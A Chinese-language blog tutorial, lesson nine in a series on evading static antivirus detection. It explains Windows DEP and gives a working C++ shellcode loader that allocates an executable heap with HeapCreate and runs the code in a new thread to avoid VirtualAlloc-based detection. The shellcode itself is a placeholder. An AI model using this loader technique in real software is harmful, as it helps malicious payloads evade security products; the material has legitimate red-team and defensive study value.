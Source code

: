 ```yaml
---
title: 静态恶意代码逃逸（第九课）
layout: post
date: '2020-11-29'
permalink: "/archivers/2020-11-29/2"
description: 本节课，使用HeapCreate API来关闭DEP保护，获取在堆上的代码执行权限，从而绕过对VirtualAlloc的检测。
---
```


代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 数据执行保护（DEP）

DEP(Data Execution Prevention)即“ 数据执行保护”，这是Windows的一项安全机制，主要用来防止病毒和其他安全威胁对系统造成破坏。 微软从Windows XP SP2引入了该技术，并一直延续到今天。

### 为什么要有DEP

在Windows Xp SP2 之前的时代，缓冲区溢出漏洞利用门槛太低了，只要发现有缓冲区溢出漏洞，就可以直接稳定利用，攻击者只需要将Shellcode不断写入堆栈，然后覆盖函数返回地址，代码就可以在堆栈中执行。但堆栈的用途主要是保存寄存器现场，提供一个函数运行时的存储空间，极少数需要代码在堆栈中执行，于是微软为了缓解类似的情况，发明了DEP保护机制，用于限制某些内存页不具有可执行权限。

## 0x02 如何绕过DEP

`VirtualProtect`这个API能够更改内存页的属性为可执行或不可执行，对于二进制漏洞利用来说，溢出的时候，把返回地址设计为`VirtualProtect`的地址，再精心构造一个栈为调用这个API的栈，就可以改变当前栈的内存页的属性，使其从"不可执行"变成"可执行"。

## 0x03 举一反三

由此说来，Shellcode执行其实也需要一个可执行的内存页，那么还有哪些API能够构造一个可执行的内存页呢？

`HeapCreate`可以在进程中创建辅助堆栈，并且能够设置堆栈的属性：

```c
HANDLE WINAPI HeapCreate(
__in DWORD flOptions,
__in SIZE_T dwInitialSize,
__in SIZE_T dwMaximumSize );
```

第一个参数`flOptions`用于修改如何在堆栈上执行各种操作。
你可以设定`0`、`HEAP_NO_SERIALIZE`、`HEAP_GENERATE_EXCEPTIONS`、`HEAP_CREATE_ENABLE_EXECUTE`或者是这些标志的组合。


- `HEAP_NO_SERIALIZE`：对堆的访问是非独占的，如果一个线程没有完成对堆的操作，其它线程也可以进程堆操作，这个开关是非常危险的，应尽量避免使用。
- `HEAP_GENERATE_EXCEPTIONS`：当堆分配内存失败时，会抛出异常。如果不设置，则返回NULL。
- `HEAP_CREATE_ENALBE_EXECUTE`：堆中存放的内容是可以执行的代码。如果不设置，意味着堆中存放的是不可执行的数据。

看到`HEAP_CREATE_ENALBE_EXECUTE`相信很多人能够恍然大悟，我们的Shellcode可以存入这个辅助堆栈中，然后创建一个线程运行它即可。

## 0x04 Shellcode执行

```c++
#include <iostream>
#include <Windows.h>

int main()
{
	char shellcode[] = "123";

	HANDLE hHep = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);

	PVOID Mptr = HeapAlloc(hHep, 0, sizeof(shellcode));

	RtlCopyMemory(Mptr, shellcode, sizeof(shellcode));
	DWORD dwThreadId = 0;
	HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)Mptr, NULL, NULL, &dwThreadId);
	WaitForSingleObject(hThread, INFINITE);

    std::cout << "Hello World!\n";
}
```

上方的例子中，我将shellcode替换为了其他字符串，因为我觉得shellcode混淆是另外一回事。


![2020-11-29-17-41-52](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/0e3f2579a680f84059c5c53f9d472895.png)

> 样本链接：https://www.virustotal.com/gui/file/1db88905be721e2b279f8f9a6dad1fbf945311b50cc79378d9f69cec5bbe2f6a/detection
